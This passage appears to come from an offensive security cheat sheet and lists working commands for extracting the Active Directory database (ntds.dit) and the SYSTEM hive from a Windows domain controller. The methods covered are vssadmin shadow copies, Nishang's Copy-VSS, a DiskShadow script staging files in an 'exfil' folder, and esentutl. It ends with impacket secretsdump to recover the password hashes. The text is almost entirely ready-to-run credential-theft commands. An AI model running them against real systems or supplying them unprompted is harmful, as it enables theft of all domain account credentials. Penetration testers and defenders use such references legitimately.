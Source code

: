 ```powershell
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```powershell
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

#### Using vssadmin

```powershell
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

#### Using DiskShadow (a Windows signed binary)

```powershell
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

#### Using esentutl.exe

Copy/extract a locked file such as the AD Database

```powershell
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

#### Extract hashes from ntds.dit

then you need to use [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```
